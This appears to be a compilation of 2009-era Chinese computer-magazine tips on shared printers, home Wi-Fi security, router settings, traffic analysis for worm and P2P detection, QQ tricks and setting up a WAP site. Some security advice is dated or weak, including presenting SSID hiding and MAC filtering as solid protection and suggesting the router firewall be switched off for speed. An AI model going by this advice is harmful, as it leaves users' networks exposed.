第三步：打开“编辑DWORD值”窗口，在上面选择“十进制”，然后输入恰当的数值，单位是“毫秒”，再单击“确定”，最后按一下F5键刷新注册表即可大功告成了。

### “假死”发生怎么办？学会快速重启

有时共享打印机会发生“假死”现象，其原因主要归结于共享打印机“劳动量”太大或者超负荷运作，毕竟这台共享打印机是一台普通打印机，本身就比较“脆弱”，何况还要为局域网网内多位用户服务。这种情况发生后，使用者都习惯关闭后再重新启动Print Spooler系统服务。其实这样做比较耗费时间，降低工作效率。我们可以换一种更有效率的方法，做一个bat文件，使Print Spooler系统服务的重启操作快速完成，从而提高打印速度。

+   第一步：打开一个记事本，接着输入这些代码：sc stop Spooler, Pause, sc config spooler start=auto, sc start Spooler。
第二步：将那个记事本保存为bat文件，存放在桌面上，这样比较便于以后操作。
第三步：以后，假如发生“假死”现象需要重启时，直接双击该文件，接着系统会弹出一个窗口提示当前的Print Spooler服务已经被停止运行，此时只需要轻轻按下任意键，该bat文件就会自动将Print Spooler服务重新启动起来。

### 注意网络协议，防止其拖慢打印速度

还有一点要提醒一下，注意不要删除一些网络协议，尤其是其中的Microsoft网络客户端，一旦删除很容易导致网络打印时速度较慢。假如真的删除了那个协议，那就需要重新安装上，不过很多时候该协议难于直接安装，只能先删除原有的TCP/IP协议然后再重新将其安装好，接着才能进行该网络客户端的重新安装。安装好后，打印速度自然会提升上来。

## 家庭无线网络放心畅游7要诀

目前，家庭无线网络日益受到大家的青睐，但无线网络相对于有线网络更容易遭侵害，技术条件也没有有线网络那么完善，所以加强家庭无线网络安全防范迫在眉睫。下面就介绍7招安全措施，让家庭无线网络更可靠更安全，让我们能放心地畅游网络。

### 重新设置用户名和密码

说到家庭无线网络的组建，就不得不提无线路由器或中继器，无线网络的建立主要就是通过它们来访问外部网络。而使用这些路由器或中继器来建立无线网络时，通常我们需要借助一个管理页面工具来设置这些设备的网络地址以及账号等信息。注意！管理页面设有登录界面，要求输入正确的用户名和密码，而制造商在出售这些设备时会提供默认的一致的用户名和密码（见图）。假如我们购买设备回家，不注意去重新设置用户名和密码，就留下了一个很大的安全隐患，黑客们随时可以进入，进而获取到该路由器交换机的控制权。

### 不要开启SSID广播

说起服务区标识符，就不得不提服务区标识符广播，即SSID广播，它是路由设备的一个重要功能，开启后，路由设备即可自动广播它的SSID号，所有无线网络客户端在该路由设备有限范围内都能接收到，通过该SSID号进入该网络。其实SSID广播主要针对于商业无线网络，因其无线网络客户端流动量特别大，而对于家庭无线网络，我们网络成员都比较固定，所以建议不要开启这个功能，防止黑客容易接收到我们的SSID号以进入我们网络。

### 修改服务区标识符

每个无线网络，一般都具有自己的服务区标识符（SSID），无线客户端想要加入该网络都要具有一样的SSID，否则想进也进不去。而制造商在路由器/中继器这些无线设备中设置了一个默认的相同的SSID，我们如果不修改这个SSID，就意味着我们的无线网络任何无线客户端都可进入，毫无防范。

### 加密不可忽视

通常，无线网络都具有一定的加密技术，会为我们提供某些形式的加密，这个是我们不可忽视的。毕竟，我们要知道假如攻击端电脑没有超出无线路由器/中继器的有效范围，就意味着它访问到我们的无线网络完全不是难题，至于那些网络中传输的数据就一切都赤裸裸地在他眼皮下。所以，我们要学会给那些数据加密，开启我们的无线网络加密，确保我们无线网络上传输的数据就算被截取也无法解读。此外，还要注意，我们网络中的所有无线网络设备的加密技术都应该保持一致。

### 设置MAC地址过滤

无论是无线网络设备，还是有线网络设备，每个网络节点设备都具有一个与众不同的唯一的标识，称之为物理地址或MAC地址，所有路由设备都会跟踪所有经过它们的数据包源MAC地址。因此，我们可以建立自己的准通过MAC地址列表，防止非法入侵者，有效保护网络。

### 不要DHCP服务，直接分配静态IP

目前，有很多家庭无线网络通过DHCP服务，为该网络的无线客户端动态分配IP，这里存在着一个很大的安全隐患。因为使用DHCP服务时，接入网络的攻击端轻而易举就能获得合法的IP。其实，家庭无线网络的成员都是比较固定的，直接分配固定的IP地址，同时在该路由器上设定允许接入设备IP地址列表即可，根本就没必要使用DHCP服务。

### 安放好位置，隐藏好路由设备

无线网络，其实就是通过无线路由器或中继器等这些设备，利用无线电波的形式传播数据。数据传播时必然存在着其有效的范围，范围远超出我们家的范围时，那就意味着网络安全存在隐患，黑客可以在我们家外登录到我们的家庭无线网络。另外，还要知道，假如我们的邻居同时也使用无线网络，那就要注意双方路由器或中继器的覆盖范围是否重叠，重叠的话就会容易引起冲突，影响网络传输。此时，我们就要为自己的路由器或中继器重新设置一个异于邻居网络的频段（也称Channel）。总之，我们要依据家庭情况，选择有效范围合适的路由器或中继器，同时把它安放好，安放位置建议选择家庭最中间的位置。

## 家用无线路由高级功能ABC

如果你有多人共用一个ADSL的经历，那肯定见过路由器，就那么一个小小的盒子便能轻而易举地帮你实现多人同时上网，是不是挺神奇？不过呢，相当多的人用了多少年路由器也就只是跟着向导一步步设置，如果因为这样你以为路由器没什么大作用的话，那可真是大错特错了，路由器还有更高级的设置肩负着更多的使命，让我们一一道来。

以TP-Link的TL-R402M路由器为例。首先，登录进入路由器的管理页面，这个页面简洁清爽，重点突出，很容易就能发现页面左侧的菜单栏，里面包括如下八大选项：运行状态、设置向导、网络参数、DHCP服务器、转发规则、安全设置、路由功能和系统工具。想调整什么设置什么，瞅准了目标，点击进入。但怎么知道该进入哪个选项呢？

### 心知肚明——无线路由运行状态仔细看

路由器正工作着，但你想看看它的流量、参数等，点击“运行状态”，这时页面就会显示出LAN口状态、WAN口状态和WAN口流量统计三大栏（见图1）。MAC地址、IP地址、子网掩码、网关、DNS服务器、上网时间、接收和发送的字节数及数据包数都在这里明确体现，一目了然。

### 懒人最爱——设置向导

这是大家最常用的功能，尤其适合不愿或者不会自己修改参数的人。跟着设置向导一步步选择、输入相关数据，基本上能保证宽带的正常连接。

### 细节决定成败——无线路由网络参数

#### 1. LAN口设置

登录路由时你就是输入这个IP地址，此IP地址是路由器本身的。所以，改了这个地址再想登录路由器管理页面，那就必须输入新IP地址了。最重要的一点，局域网里的所有计算机一定要记得把默认网关设成新的IP地址，要不可找不到路由上不了网。至于子网掩码，一般情况下不用修改。

#### 2. WAN口设置

WAN口连接类型里通常选的都是PPPoE，因为ISP服务商大多提供的这种宽带业务。上网账号和上网口令是ISP服务商提供的，直接输入。至于连接模式，有三种选择，根据自己的需要选定即可（见图2）。

#### 3. MAC地址克隆

如果你的ISP服务商要求克隆MAC地址，那么这项功能就派上用场了。

### DHCP服务器

#### 1. DHCP服务器

你想自己为局域网里所有的计算机配置TCP/IP协议参数的话，绝对是件麻烦活儿。但是启用DHCP服务器功能然后在硬件网卡的参数里选择“自动获取IP地址”后，DHCP服务器就能帮你自动分配IP地址了（见图3）。

其中，地址池表示的是IP地址范围，你可以设置开始地址和结束地址两个数值，以后每次被分配的IP地址可能一样可能不一样，但绝对都在这地址池的范围之内。

下面几个都是可选项。网关里要填入的是路由器LAN口的IP地址，缺省值为192.168.1.1。DNS服务器可以从ISP服务商那里获取一个公共地址填入。

#### 2. 客户端列表

想知道都是谁的电脑通过DHCP服务器获得了IP地址？找客户端列表，点击刷新后信息就能随时更新。

#### 3. 静态地址分配

如果你希望每一次的IP地址都是一样的话，就把你电脑的MAC地址和想用的IP地址输入，以后不管DHCP服务器怎么分配IP，这个地址都是你电脑的。

### 我的地盘我做主——转发规则

#### 1. 虚拟服务器

默认情况下，从外网上是看不到局域网里的计算机的。使用虚拟服务器定义了服务端口的话，外网发向此端口的服务请求会被转到局域网里的服务器上，外网用户也就能访问内网的服务器了（见图4）。更改设置的参考顺序为“服务端口→常用服务端口→ID→IP地址→协议→启用→保存”。

| ID | 服务端口 | IP地址 | 协议 | 启用 |
|----|----------|--------|------|------|
| 1 | 21 | 192.168.1.100 | TCP | ✓ |
| 2 | 80 | 192.168.1.101 | ALL | ✓ |
| 3 | | 192.168.1. | ALL | |

#### 2. 特殊应用程序

在简单的NAT路由器下，因为防火墙的缘故，需要多条连接的应用往往无法工作，如网络游戏、视频会议、网络电话等。但是在特殊应用程序里设置了触发端口后，一旦有应用程序在这个端口发起连接，相应的开放端口就会打开，从而满足使用要求。触发端口是一个端口。开放端口一个、多个或者是个端口段都可以。开放协议都可以选ALL，最后不要忘了勾选启用。

#### 3. DMZ主机

一旦输入了IP地址将某计算机设置为DMZ主机，就意味着这台电脑与广域网可以双向无限制通信。但这台电脑失去了防火墙的保护，很容易受到攻击。还是三思而后使用。

#### 4. UPnP设置

一般这个选项不需要调整。它的作用在于让外网电脑在有需要时访问内网计算机，设置后路由器能进行特定的端口转换。

### 防守要好——安全设置

#### 1. 防火墙设置

这里主要用于控制防火墙功能及其各项子功能的开启。防火墙开启后网速会受到影响，如果不是特别需要这项功能可以关闭（见图5）。

#### 2. IP地址过滤

这个IP地址的电脑不能上网，这个IP地址的电脑不能上这个网，这些设置是如何实现的呢？就在IP地址过滤下选择添加新条目，把你关于IP的种种禁令都填写进去吧。万一哪一天想开了，再删除这些条目也不迟。

#### 3. 域名过滤

把某些网站的域名填写进去后，局域网里所有的计算机可都不能上这个网了，这就是域名过滤的功效。

#### 4. MAC地址过滤

局域网里电脑多个个都联网速度受影响，想控制一下。在这个选项里输入某电脑的MAC地址，生效与否，就是上网与否，全由你掌控。

#### 5. 远端WEB管理

想让远程主机从外网通过WEB浏览器配置本路由器？要填入WEB管理端口和远端WEB管理的IP地址。

#### 6. WAN口Ping

不想让外网的计算机ping通本路由器，那就在忽略来自WAN口的Ping后面打勾，然后保存。

### 路由功能

#### 1. 静态路由表

到达某指定IP地址的数据包得从制定的网关出去，想完成这样的要求请设置请静态路由表（见图6）。不过设置这个路由的人需要比较了解网络原理和IP地址规则，没什么需要的话就不用尝试了。

| ID | 目的IP地址 | 子网掩码 | 网关 | 启用 |
|----|------------|----------|------|------|
| 1 | 202.96.134.210 | 255.255.255.0 | 192.168.1.2 | ✓ |
| 2 | | | | |
| 3 | | | | |

#### 2. 系统工具

无线路由器的系统工具里包含软件升级、恢复出厂设置、重启路由器、修改登录口令、系统日志五大项目。具体操作非常直观，用户可以根据用户手册自行选择设置。

通过以上介绍，希望你能有所收获。路由器的品牌不少，操作不可能完全一样，但方法和原理都差不多，赶快亲自动手试试吧！

### 帮你“检阅”局域网

在日常网络管理中我们常遇到这样的问题：网络连接正常，但是网速非常慢；局域网遭受病毒感染或莫名攻击，网络管理员却无法迅速定位攻击的源头；虽然网络连通性正常，业务系统却无法使用或网络缓慢异常……以前我们在遇到上述问题时，一般只针对发生的问题或现象采取针对性措施，却没有在网络本质上进行分析解决，导致同样的问题屡屡复现。下面我们用科来网络通信分析系统（下载地址：http://down.tech.sina.com.cn/content/43079.html），对主机遭遇病毒感染扫描、网络P2P下载主机定位和员工浏览网站监控进行简单操作分析。

### 局域网内感染病毒主机定位扫描

使用科来网络通信分析系统对局域网扫描分析，并对感染病毒的主机进行定位，确认病毒主机并采取措施，从而切断传播源头，避免病毒危害进一步散播。

- **第一步：** 打开“工程”，查看“概要统计”中的“TCP连接”的相关统计，可以查看到，网络中存在较大量的不成功同步连接（见图1）。

TCP数据包
| 类型 | 大小 | 包数量 | 百分比 | 会话数 |
| :--- | :--- | :--- | :--- | :--- |
| TCP同步数据包 | 518,928 KB | 7,886 | 0.202% | 377 |
| TCP结束连接数据包 | 271,315 KB | 2,973 | 0.046% | 81 |
| TCP复位数据包 | 71,309 KB | 1,128 | 0.028% | 56 |
| TCP连接 | | | | |
| 初始化TCP连接 | | | | 3,181 |
| 成功建立的TCP连接 | | | | 1,561 |

- **第二步：** 切换到“端点”视图，看一下每个节点的明细情况。如图2所示，可以看到在交换设备Extreme Net:17:93:A0下接入的某台主机发起很多的TCP连接，并且收发包的比例很大为641：1。

名称 | 网络连接 | 包发/收比 | 总流量 | 发送数据包 | 接收数据包
:--- | :--- | :--- | :--- | :--- | :---
Extreme Net:17:93:A0 | ... | 1.140 | 156,414 MB | 113,527 | 99,557
211 | ... | 6.100 | 717,292 MB | 1,702 | 279
211 | ... | 641.000 | 41,375 KB | 841 | 1
202 | ... | 1.069 | 1,583 MB | 4,581 | 4,287
202 | ... | 1.315 | 3,782 MB | 4,249 | 3,232
211 | ... | 4.010 | 248,769 KB | 774 | 193
202 | ... | 1.541 | 8,981 MB | 7,588 | 6,503
211 | ... | 1.381 | 961,123 KB | 659 | 650

- **第三步：** 切换到“会话”视图，选择“TCP会话”（见图3）。

会话 | 端点1 -> 端点2 | 每秒字节 -> | 最早发包
:--- | :--- | :--- | :---
211:... -> 213:...:microsoft-ds | 132 Bps | 10:43:00
211:... -> 20.121.94.126:microsoft-ds | 132 Bps | 10:43:00
211:... -> 92.72.203.79:microsoft-ds | 132 Bps | 10:42:58
211:... -> 205.123.211.21:microsoft-ds | 132 Bps | 10:42:58
211:... -> 41.81.251.42:microsoft-ds | 132 Bps | 10:42:58
211:... -> 76.2.124.82:microsoft-ds | 132 Bps | 10:42:58
... | ... | ... | ...

- **第四步：** 可以看到，某台主机通过随机端口随机的连接外网IP的445端口，在22秒内发起了339个连接，该连接的持续时间、流量、每秒位是成规律重复的，这是明显的蠕虫特征。

- **第五步：** 切换到“数据包”视图，查看数据通信，可以看到全是SYN请求，至此可以推断某台主机感染蠕虫病毒。

### 局域网内P2P下载客户端定位

P2P服务会导致网络资源被大量占用，影响网络速度和正常数据来往。通过科来网络通信分析系统迅速查找定位使用P2P服务的机器，从而采取相应措施，维护网络正常运行。

- **第一步：** 查看“协议视图”，可以看到网络中运行着P2P服务。

- **第二步：** 选择“定位浏览器节点”，然后切换到“端点”，就能找到运行P2P服务的主机（见图4）。可以看到在22秒的时间内该主机已经有3.782MB的总流量，表示该主机在运行P2P服务。

概要统计 | 诊断/端点 | 协议 | 会话 | 矩阵 | 数据包 | 日志 | 图表 | 报表
:--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :---
类型 | IP | | | | | | |
名称 | 网络连接 | 包发/收比 | 总流量 | 发送数据包 | 接收数据包 | | |
202:... | 284 | 1.315 | 3,782 MB | 4,249 | 3,232 | | |

### 上网浏览监控管理

使用科来网络通信分析系统对网络进行全方位扫描，能够清晰地观察到局域网内浏览上网信息，从而确保网络使用者保持高效工作效率，同时避免了浏览载有病毒的网站而造成内网感染。

先打开工程文件，查看“日志”视图（见图5），可以看到网络内用户上班时间登录、浏览过淘宝网、开心网等与工作学习无关的网站。

客户端 | 服务器 | 请求网址 | 请求方法
:--- | :--- | :--- | :---
202:... | 202.... | GET |
211:... | 57.18.205.192:www-http | http://www.cfan.com.cn/ | GET
202:... | 222.73.189.247:www-http | http://club.alisoft.com.cn/ | GET
211:... | 121.0.25.100:www-http | http://bbs.pcpop.com.cn/ | GET
202:... | 110.43.233.211:www-http | http://www.taobao.com/ | GET
211:... | 203.111.162.35:www-http | http://www.kaixin001.com/ | GET
211:... | 51.195.131.145:www-http | http://51.195.131.145/ | GET

### 无线上网 信号还能更强

文/TMG wyj

为了在家里任何地方都能随时上网，无线路由可以说功不可没。少了那根网线的限制，把手提电脑挪来挪去都没有问题。只是，家里各个地方的信号强度不一样，有时满格，有时非常微弱，跟无线路由说明书上保证的覆盖范围并不一致。是商家卖给了自己假冒伪劣的产品？不一定。其实无线信号的强弱是很容易受到环境影响的。对于信号的衰减，我们并非全无办法，有一些小技巧能帮助解决这个问题。

### 合理摆放路由

看一看，你家里的无线路由器是不是就随便找了个地方放在那儿？如果是的话，你可能得给它挪挪窝了。因为无线信号穿越障碍物，尤其是金属后，就会有大幅度的衰减。现在咱们的房子有不少钢筋混凝土的墙壁，信号穿过这些墙壁后有所衰减非常正常。所以，我们摆放无限路由器的时候，得给它选择一个合适的位置，让你接收信号的地方跟无限路由间的墙壁越少越好。

平常大家上网的地方多在卧室里、书房里，在餐厅、厨房、卫生间这些地方上网的次数非常少（见图1）。选择无线路由摆放位置的时候，最好让它距离卧室、书房都很近。每户人家的房间格局都不一样，但应该都能找到这最合适的地方。如今笔记本的无线网卡都能检测无线信号的强度，对无线路由的位置拿不准的话，完全可以辛苦点儿，端着笔记本到各个房间检测信号强度，作为选择位置的依据。如果电脑没有无线信号检测能力的话，下载Network Stumbler软件，安装后也能起到同样的作用。



### 修改信号频道

无线路由买回家后，大家一般就是安装后设置了密码保证能上网了就行。而实际上，无线路由的很多设置也是可以更改的，打开无线路由的配置界面，我们会找到无线信道的选项。一般来说，54M的无线信道有11个，即信道1、信道2、信道3 ……信道11（见图2）。如果很多无线信号都使用同一个信道，信号之间就会产生干扰。很明显，如果邻居们买了同样信号的无线路由器，又恰巧都没更改默认设置，互相之间信号干扰是很容易发生的事儿。为了避免这种干扰，咱们可以动动手指，进入无线路由设置界面，来更改下无线信道。



如果你安装了Network Stumbler软件，用它扫描后你会知道周围环境中已经有怎样的无线信号，使用的是哪些信道。更改无线信道的时候，就可以避开这些信道。另外，应该要提醒的是，无线信号不仅会受到同一信道信号的影响，相邻信道也会有干扰作用。所以，更改设置无线信道时，也要注意跟别人的不要太接近，至少要差两个信道。

除了无线路由的信号影响，家用电器工作时也会产生电磁干扰，所以摆放无线路由时也得注意，离其他家电越远越好。

### 增强信号强度

上面讲的是怎样让无线信号不衰减，有减必有增，我们当然有方法让无线信号变得更强。影响信号的发射强度和接收能力还直接受到天线增益的影响。有些无线路由的天线能够拆卸，我们自己去市场上买个增益更高的天线换上，这无线信号有可能更强。如果想省点钱不到市场上买天线，自己动手DIY也不是不可能。奶粉罐、蚊香盘、漏勺等这些日常生活中的常见物品，都有可能成为增益天线的原材料，不妨动手试一试，自己成功完成一件增益天线可是件非常有成就感的事情。想到市场上买天线的人，得问清楚天线是全向还是定向的，如果不注意买了定向天线，那就只能在一个方向上接收信号了。这三个小方法都只能说是改进信号，强度大小最根本还是取决于无线路由本身的发射功率，所以，买的时候得好好挑选啦。

### 满屏显示Excel各行数据

文/杯中水

在Excel表格中，为了方便浏览，调整显示比例是经常的事情。比如，有时可能数据列数比较少，这样可以满屏增大显示使其更清晰，有时又可能很多，需要来回拖动滚动条查看，这时也可以使其满屏显示以便浏览。方法其实很简单，首先拖动鼠标选定首行，然后在显示比例下拉列表中选择“选定区域”选项即可。这种方法同样适合Word以及Powerpoint组件，只需在显示比例列表中选择不同的选项。

### 玩转多标签聊天

对于喜欢用QQ聊天的朋友来说，一旦聊天窗口开多了，在任务栏中就会有许多晃动的QQ好友头像，这样聊天时，在不同好友的窗口之间来回切换，就显得特别麻烦。更为重要的是，还常常会说错话，即本来应该和这个人说的话，却发给了另外一个好友，这严重影响了聊天的质量。如果多个好友的聊天窗口以标签的形式整合到一个窗口中，这样我们在不同的好友窗口之间来回切换，就方便多了。其实，QQ是支持多标签聊天的。接下来，笔者就给大家来说一下如何来实现。

先从http://down.tech.sina.com.cn/page/39744.html下载Jedi Window Dock，这是一个绿色软件，下载以后将其解压到硬盘的任意位置（如E盘根目录下），双击解压得到的Jedi Window Dock.exe，就可以运行Jedi Window Dock了，其界面如图1所示。

在图1所示的窗口中，大家就会发现当前打开的所有程序窗口的名称Jedi Window Dock都给列出来了，如A处。



先登录自己的QQ号码并打开某个QQ好友的聊天窗口（如“关三公子”），接着选中需要添加到标签的QQ好友窗口的名称，然后



单击Add To Tag按钮，该QQ好友的名称就会以标签的形式显示在Jedi Window Dock窗口了，如图2。重复这个过程，直到将其他与自己正在聊天的QQ好友以标签的形式添加到Jedi Window Dock窗口中。在实际的聊天过程中，如果想和某个QQ好友聊天，只要单击Jedi Window Dock窗口中与这个QQ好友对应的标签，就完成了不同QQ好友窗口之间的切换，从而为我们同时和多个QQ好友聊天提供了很大的方便。

- 1. 运行Jedi Window Dock，必须保证系统中已经安装了Framework 2.0（Vista默认已经安装），如果自己的系统没有安装Framework 2.0，可在百度上搜索一下，随便下载一个安装，安装完成后，就可以正常运行Jedi Window Dock了。
- 2. 如果运行Jedi Window Dock后发现当前打开的窗口名称没有全部出现在Jedi Window Dock的列表框中（特别是运行Jedi Window Dock后，再打开的窗口），这时单击Refresh Window List按钮，刷新Jedi Window Dock之后就可以看到当前打开的所有窗口名称了。

### 自己打造去广告版QQ2009

QQ会员可以设置不显示广告和迷你首页，难道我们为了自己清静一下，就需要花钱吗？赶快自己动手打造一个去广告的QQ2009吧。

打开QQ2009的安装目录，找到Plugin目录，打开后发现里面有很多个Com.Tencent.xxx的目录，(xxx为泛指，看名字就知道这些目录是什么作用)，每个xxx目录里都有plugin.tpc等很多文件，对于不要的插件，只要删除目录里除了plugin.tpc以外的所有文件，注意要保留这些目录及plugin.tpc文件。例如Plugin\Com.Tencent.Advertisement这个广告插件是一 定 得 删 的，但是Plugin\Com.Tencent.Advertisement\plugin.tpc文件还必须保留。插件可根据自己需要进行调整，我就只保留了三四个聊天的插件。经过这么一设置，QQ终于可以清凉一夏了。



### 无需外援 批量删除QQ好友

不知不觉，发现QQ好友都快到达4位数了，或者你只想跟值得的朋友好好地认真地密着，便会开始清理QQ好友吧。从未聊过、改名频繁、年久失忆的自然也要一并删掉。需要清理的QQ好友数量太多。怎么删呢？一个一个点击删除？工作量可想而知！下载专门的批量删除软件？又有点杀鸡焉用牛刀的感觉。笔者无意中发现一个小窍门，能加快不少速度。

首先在“控制面板”中打开“鼠标”设置，选择“指针选项”选项卡，勾选“自动将指针移动到对话框中的默认按钮”选项（见图），“确定”退出。



现在正式开始清理好友了，进入好友管理器（09正式版暂时没有该功能，据说09SP1版会有，可先安装08版进行清理）批量选择要删除的好友，右击，点击“删除好友”，这时会依次弹出一个个“删除好友”对话框，由于我们事先对鼠标做过设置，鼠标会自动指向“确定”按钮，点击“确定”后鼠标又会自动指向下一个弹出窗口的“确定”按钮，是不是方便快捷了些呢？这下只要闭上眼睛狂点“确定”，就能轻松搞定啦。

### WAP网站抢先锋，3G时代挖黄金

WAP网站对大家来说或许还是个陌生领域，但我们使用手机浏览的网页基本上都是WAP网站，目前拥有了大量的用户，盈利上有很大空间。但WAP网站的内容、推广、盈利，跟传统WEB网站有很大区别。

### 第一部分：恶补WAP知识

#### 1.什么是WAP网站？

WAP是一种无线应用协议，是一个全球性的开放协议。WAP定义可通用的平台，把目前Internet网上HTML语言的信息转换成用WML描述的信息，显示在移动电话或者其他手持设备的显示屏上。多种网络，也就是说，它不依赖某种网络而存在，今天的WAP服务在3G到来后仍然可能继续存在，不过传输速率更快，协议标准也会随之升级。

WAP(无线通信协议)是在数字移动电话、因特网或其他个人数字助理机(PDA)、计算机应用之间进行通信的开放全球标准。现在很多人直接用WAP来代表手机上网。WAP是可以移动的INTERNET。

WAP网站流程：制作WAP页面或者程序，上传到支持WAP功能的服务器上，移动WAP用户就可以通过手机输入URL来进行访问。

应用范围：
公众信息、新闻、天气、图片铃声下载、彩票信息、聊天交友、商业应用、证券财经、银行系统、特定的位置服务、电子商务、网上银行、个人服务信箱相册、位置服务、信息定制、移动办公。

#### 2.如何做好WAP网站的SEO（搜索引擎优化）

SEO的中文意思是搜索引擎优化。
通过总结搜索引擎的排名规律，对网站进行合理优化，使你的网站在百度和Google排名提高，让搜索引擎给你带来客户。

不管是针对WEB还是WAP的SEO，其目的都是为了提高在搜索引擎中的排名和关键字的收录。而WAP网页的优化必须要读懂WML语言，如果你熟悉HTML，对WAP页面SEO也将很顺手。以优化标题为例，比如在标题中可以加入更多个热门关键词（见图1）。其他的优化方法跟WEB网站类似，比如交换连接，加入WAP/WEB网站导航站等。



#### 3.内容何处来

通过采集，可以提高WAP建站的效率，快速丰富内容。完全采集也是垃圾站常见的做法。不过，从长期来看，匮乏原创内容很难留住手机用户。如今聪明的搜索引擎更喜欢收录原创的内容，你完全采集，自然不会受到WAP搜索引擎的青睐。推荐的做法：尽量原创，适当采集；即使采集也要进行二次加工，不要完全照搬。也就是俗语所说的“照葫芦画瓢”。

#### 4.成色要“高档”

由于监管手段不如WEB网站方便、备案不如WEB网站严格，而且相应的监管力度也不够，一些WAP站长会通过建立一些非法、色情的网站来获得收益。这种做法是违法的，万不可取。虽然在开始的时候会赚得一些钱财，但在八部门整治互联网低俗之风专项行动的风头浪尖上，这种风险是巨大的。随着互联网整治力度的加大，以后对WAP网站整治力度也会加强，对未备案的WAP网站以及提供接入的服务商有严厉的处罚措施。

#### 5.PC端调试WAP用何浏览器

用手机对网站进行调试，首先你得忍受奇慢的速度，还有就是不菲的流量费用。可不可以在电脑上进行调试？答案是肯定的，但需要准备一些相应的工具：用Firefox（下载：http://www.newhua.com/soft/3600.htm）加上WMLBrowser扩展（下载：https://addons.mozilla.org/zh-CN/firefox/addon/62?adv=true），或者Opera浏览器（下载：http://www.newhua.com/soft/24324.htm），都能够在PC上浏览WAP网页。专业的可考虑WinWAP（主页：http://www.winwap.com/），专门为此开发。

### 第三部分：架WAP网站 抢3G商机

进入3G时代，高速的网络传输、随意缩放的浏览技术，能让手机访问WEB网站更加的顺畅、自如，但几英寸的屏幕不能带来最佳的浏览体验。相反，为手机量身定做的WAP网站，随着3G的普及，面临的发展机会更加广阔。刚才已经了解WAP网站的一些常识，那么如何架设WAP网站呢？在3G时代即将到来之际，掌握了先机的人，无疑将获得日后的黄金。

#### 准备：跟架设普通网站一样，架设WAP网站同样需要域名、空间和CMS（建站系统）。

在域名方面，WAP域名跟普通的网站域名一样，可以注册价格贵一些的.com/.net顶级域名，也可以是便宜的.cn/.com.cn/.net.cn。然后绑定“wap.你的域名”或URL跳转到你的WAP网站目录即可。如何完成绑定、URL跳转，详见下文。

在空间方面，WAP网站的空间跟普通网站的空间基本一样，不过要支持WAP，其实就是让空间支持WML网页，这个可以跟空间提供商咨询。此外还要根据选择的CMS来选择空间，比如选择的CMS采用PHP+MYSQL，那么你选择的空间就需要支持PHP+MYSQL。

在CMS方面，选择的当然是可以建WAP网站的系统。选择何种CMS，最重要的还是看实现的功能，比如要建手机新闻站，选择WAP新闻建站系统；要建手机综合站，选择支持新闻、小说、交友等内容的系统。

以WapEQ建站系统来介绍架设WAP网站过程，WapEQ WAP建站系统下载地址：http://down.chinaz.com/soft/23181.htm，可升级最新版本。

#### 第一步：解压下载的WapEQ系统文件。选择一款FTP工具，以FlashFXP为例，按下F8，打开快速登录窗口，输入你空间的FTP地址、用户名和密码（在购买空间之后，这些内容空间提供商会提供给你）。登录之后，为了方便管理（比如除了WAP网站，还想在空间中架设论坛），在根目录下新建一个文件夹用于保存WAP建站程序，比如“wap”。

然后，在左侧目录中打开解压的WapEQ建站系统文件夹，选择其中的所有内容，按下Ctrl+T组合键，将这些内容上传到空间根目录的“wap”文件夹中。

> **小提示**
在购买的时候一定要看清楚：很多空间商的ASP/PHP虚拟主机和数据库是分开卖的。

上传好WAP建站系统文件之后，首先需要打开空间的后台管理页面，将域名和空间绑定。如果你的空间支持子目录绑定，可以将“wap.你的域名”（比如wap.123.cn）绑定到wap子目录中（图2）。绑定子目录之后，别忘了打开域名管理页面，添加你的顶级域名以及“wap.你的域名”的A记录，IP地址指向你空间的IP地址。



#### 第二步：域名绑定、解析之后，打开浏览器，直接输入：http://你的域名/wap。下面就可以进行WapEQ建站系统的安装。在安装页面中点击下方的“点击开始全新安装”按钮开始进行安装，接着输入数据库连接配置，比如数据库主机（一般是localhost）、数据库账号、密码、数据库名称等，如果不知道这些配置信息，可以向你的空间提供商咨询。

输入完毕后，点击“下一步”继续安装。然后输入管理账号（默认admin）和密码，这可是以后登录WAP网站后台添加内容、设置WAP网页的账号，记好了！最后，再次点击“下一步”即可完成安装。

> **小提示**
安装WapEQ系统、或者重装的时候，往往会出现reg_check.php错误，遇到这个问题，只要删除WAP CMS目录（即这里的wap）中的reg.bake文件即可。

#### 第三步：在WapEQ后台中，可以设置WAP网站的名称、域名、LOGO等基本属性等。比如更改WAP的名称，可打开：http://你的域名/wap/admin，输入管理账号和密码。

在左侧依次点击“系统管理”、“基本属性管理”，在“网站名称”中就可以更改WAP网站的名称（见图3）。此外，还可以设置WAP域名、LOGO图片、上传的文件格式、是否允许回复等功能。设置完成后，点击“保存设置”即可。



#### 第四步：设置好WAP网站的基本信息之后，还可以添加/删除WAP网站栏目、规划频道布局。比如默认情况下在“新闻中心”提供了“国际新闻”和“国内新闻”两个子频道，如果我想加一个“体育”、“Geek”频道，可以在后台管理页面左侧依次点击“系统管理”、“频道内容管理”。接着，点击“新闻中心”，在打开的页面中点击“新增频道”按钮。然后，输入频道名称，点击“确定新增”按钮即可（见图4）。如果想修改默认的“国际新闻”和“国内新闻”两个子频道，点击相应的“修改”链接即可修改。用同样的方法，我们还可以修改其他的频道内容。


### 3分钟 文件共享轻松行

文件共享方便大家的交流，但是一提到架设FTP，相信闻风赶过来的100位筒子已经吓跑了90位，是的，这个存在很大的难度。有一款小工具能轻松解决（下载：http://www.newhua.com/soft/59685.htm）。无论身处外网还是局域网，只要在连接互联网的情况下，即便是不懂任何网络知识的菜鸟朋友，5分钟就可以将自己电脑上任何文件或文件夹完美共享给好友。

#### 第1分钟

将Zapr下载后安装，系统必须事先装有Microsoft .NET Framework 2.0（下载：http://www.onlinedown.net/soft/38669.htm）才能够得到安装成功。运行该程序后弹出一个登录面板，点击面板上“注册新账户”链接，就可以直接打开官方主页去免费申请账号，账号申请成功后进行登录（见图1）。



#### 第2分钟

为实现文件共享，可切换到主界面的共享页面，点击“共享”按钮，在随后开启的对话框中，单击“浏览”按钮，从中选择打算共享的文件或文件夹，单击“下一步”按钮。在共享向导中可选择共享方式为“公开”或“私密”。其中前者可让好友随意访问或下载共享内容，而后者只有输入正确的“私密”密码，才能够真正完成下载操作。

#### 第3分钟

在“共享成功”对话框中，我们发现Zapr会赋予用户一条链接地址，它便是共享文件或文件夹的共享链接。现在只需将该链接通过电子邮件、QQ聊天等联系方式告诉给好友，然后他们只需轻轻点击这个链接，就可借助网页浏览器浏览或下载你所共享的文件或文件夹内容，是不是相当方便呢？



